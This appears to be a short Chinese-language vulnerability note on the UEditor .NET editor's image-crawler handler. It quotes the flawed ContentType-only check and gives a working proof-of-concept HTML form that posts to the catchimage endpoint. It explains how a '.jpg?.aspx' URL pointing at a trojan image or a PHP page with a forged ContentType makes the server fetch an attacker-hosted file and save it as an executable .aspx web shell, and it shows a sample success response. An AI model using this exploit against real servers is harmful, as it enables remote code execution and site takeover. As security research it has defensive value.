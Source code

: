 基本信息
---

项目地址
- https://github.com/fex-team/ueditor/

相关漏洞
---

- 文件上传 -> RCE
  - https://www.jianshu.com/p/6dae608b617c

https://github.com/fex-team/ueditor/blob/dev-1.5.0/net/App_Code/CrawlerHandler.cs
Crawler方法对source[]的检查仅仅是一个ContentType
```c#
 if (response.ContentType.IndexOf("image") == -1)
            {
                State = "Url is not an image";
                return this;
            }
```
并没有检查文件扩展名就直接保存到本地 导致getshell
POC:
```html
<form action="http://xx.com/editor/ueditor/net/controller.ashx?action=catchimage" enctype="multipart/form-data" method="POST">
  <p>shell addr: <input type="text" name="source[]" /></p>
  <input type="submit" value="Submit" />
</form>
```
shell addr 可以用http://www.xxx.com/xxx.jpg?.aspx的方式使用包含木马的图片（为了使服务器返回的ContentType是image/xxx）
也可以用http://www.xxxx.com/xxx.php?.aspx然后在xxx.php中自己设置ContentType

返回如下
```
{"state":"SUCCESS","list":[{"state":"SUCCESS","source":"http://www.xxxx.com//upload/Encyclopedias/201808/03/2018080300550278683.png?.aspx","url":"/upload/image/201808/03/6366885698033038502306919.aspx"}]}
```
